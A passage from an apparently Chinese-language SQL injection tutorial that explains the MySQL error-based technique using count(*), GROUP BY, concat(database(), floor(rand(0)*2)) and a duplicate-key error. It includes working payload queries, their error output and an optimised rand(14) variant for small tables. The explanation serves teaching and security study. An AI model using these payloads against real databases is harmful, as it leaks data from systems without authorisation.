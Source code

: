 A：那为什么不是这个结果，反而报了主键重复的错误呢？

Q：因为还有一个最重要的特性，就是 group by 和 rand() 使用时，如果临时表中没有改主键，则在插入前 rand() 会再计算一次（也就是两次，也有说多次的）。就是这个特性导致了主键重复并报错。

> Payload 的执行流

```bash
mysql> SELECT count(*)
    -> from users
    -> GROUP BY
    -> concat(database(),floor(rand(0)*2));
ERROR 1062 (23000): Duplicate entry 'sqli1' for key 'group_key'
```

在 payload 的执行中，当`group by`取第一条`from`表记录时，此时`group by`的是`sqli0`，发现临时表中并没有`sqli0`的主键，注意这个时候，`rand(0)*2`会再计算一次，经`floor()`后，率先插入临时表的主键不是`sqli0`，而是`sqli1`，并计数`1`

| 记录  | Key | Count(\*) | floor(rand(0)\*2) |
| --- | --- | --- | --- |
|     | Sqli0 | 0   | 0   |
| 1   | Sqli1 | 0   | 1   |
|     | Sqli1 | 1   | 1   |
| 2   | Sqli0 | 1   | 0   |
|     | Sqli1 | 2   | 1   |
| 3   | sqli1 | 3   | 1   |
|     | sqli0 | 2   | 0   |
| 4   | sqli0 | 3   | 0   |
|     | sqli1 | 4   | 1   |
| 5   | sqli1 | 5   | 1   |

继续从 from 的表中取第三条记录，再次计算 floor(rand(0)*2)，结果为 0，与 database() 拼接为 sqli0，临时表的主键中并不存在，在插入前，floor(rand(0)*2) 又计算一次，拼接后与 sqli1，但是是直接插入，即使临时表中已经有了主键 sqli1 也硬要插入，从而导致主键重复报错，也就是：ERROR 1062 (23000): Duplicate entry (条目) 'sqli1' for key 'group\_key'。

> 优化

Floor(rand(0)\*2) 的值为 011011... 但其实第三次计算的结果我们已经不需要了，如果没有 floor(rand(x)\*2) 满足 0101 或 1010，那么 from 的表中有两条数据就是可以报错的。

经过多次实验，发现 floor(rand(14)\*2) 的值为 1010000...,那么我们创建一个只有两条数据的表试一下看看

```bash
mysql> select * from test;
+------+-------+------------+
| id   | name  | tel        |
+------+-------+------------+
|    1 | test  | 1111111111 |
|    2 | test2 |  222222222 |
+------+-------+------------+
2 rows in set (0.01 sec)

mysql> select count(*) from test group by concat(database(),floor(rand(0)*2));
+----------+
| count(*) |
+----------+
|        2 |
+----------+
1 row in set (0.01 sec)

mysql> select count(*) from test group by concat(database(),floor(rand(14)*2));
ERROR 1062 (23000): Duplicate entry 'sqli0' for key 'group_key'
```